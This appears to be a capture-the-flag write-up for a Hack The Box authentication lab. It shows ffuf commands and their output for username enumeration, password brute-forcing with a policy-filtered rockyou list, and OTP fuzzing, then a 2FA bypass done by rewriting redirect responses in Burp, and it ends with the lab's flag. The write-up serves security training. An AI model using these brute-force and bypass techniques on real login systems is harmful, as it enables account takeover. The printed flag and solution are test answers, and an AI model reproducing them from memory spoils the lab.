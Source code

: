 ```yaml
---
sticker: emoji//1faaa
---
```

## Scenario

You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

![](Pasted image 20250215140214.png)

Let's begin by checking the website:

![](Pasted image 20250215140227.png)

We have a login functionality, let's check it out:

![](Pasted image 20250215140248.png)

We can begin by registering a new account and checking the behavior in burp:

```ad-note
`test`:`test`
```

If we do those credentials, we get the following:


![](Pasted image 20250215140815.png)


Now we know the password policy, it goes like this:

```ad-important
Password does not meet our password policy:
    Contains at least one digit
    Contains at least one lower-case character
    Contains at least one upper-case character
    Contains NO special characters
    Is exactly 12 characters long
```

Nice, let's register an account that goes like that:

```ad-note
`test`:`Passw0rd1123`
```

We can now test how it looks like when a valid username goes through the application:

![](Pasted image 20250215155348.png)

We get `Invalid credentials`, what if we use an invalid user:

![](Pasted image 20250215155424.png)

Now we get another error `Unknown username or password.`, once we know this, we can use ffuf in order to fuzz for valid usernames:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown username or password.
________________________________________________

gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 196ms]
```

We got a valid username:

```
gladys
```

Now, with the valid username, we can try to brute-force the password creating a custom wordlist matching the password policy, let's grep the `rockyou.txt` wordlist:

```
grep -P '^(?=.*[0-9])(?=.*[a-z])(?=.*[A-Z])[A-Za-z0-9]{12}$' /usr/share/wordlists/rockyou.txt > filtered_rockyou.txt
```

This will filter `rockyou` wordlist to match the password policy, now let's use ffuf:


```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200
```


After a while, we get this:

```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /home/samsepiol/filtered_rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid credentials
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 156ms]
```

We got credentials:

```ad-note
`gladys`:`dWinaldasD13`
```

If we try to log in, we can see the following:

![](Pasted image 20250215160432.png)

We are redirected to `/2fa.php`, we need to bypass it, let's do the following:

Let's start by sending a request and checking the behavior:

![](Pasted image 20250215160533.png)

If we send an invalid OTP, we get `Invalid OTP` error, knowing this, let's create a list of OTPs and fuzz:

```
seq -w 0 9999 > tokens.txt
```

```
ffuf -w tokens.txt -u http://94.237.55.157:40800/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=k0p7io2i4ucilmknkgt9m2ukd5" -d "otp=FUZZ" -fr "Invalid OTP" -ic -c -t 200
```

After a while, we are unable to get any OTP by fuzzing, which means, this is not the intended path to take, that's when logging into our `test` account is truly helpful, if we log in, we can see the following:

![](Pasted image 20250215164723.png)

We are redirected to `/profile.php` instead of `/2fa.php`, that means that if we're able to change the `Location` to `/profile.php` on glady's account, we'd be able to bypass the 2fa code requirement, let's do it:

![](Pasted image 20250215164842.png)

`Do intercept -> Response to this request`:

![](Pasted image 20250215164923.png)

Now, change `Location` to `/profile.php`:

![](Pasted image 20250215165100.png)

Forward and `Do intercept -> Response to this request` again:

![](Pasted image 20250215165141.png)

We get a GET request, we need to intercept this one too and change status code to `200` and `location` to `/profile.php` again:

![](Pasted image 20250215165225.png)

After forwarding the request, this happens:

![](Pasted image 20250215165242.png)

We get access to glady's account and got the flag:

```
HTB{d86115e037388d0fa29280b737fd9171} 
```


![](Pasted image 20250215165319.png)


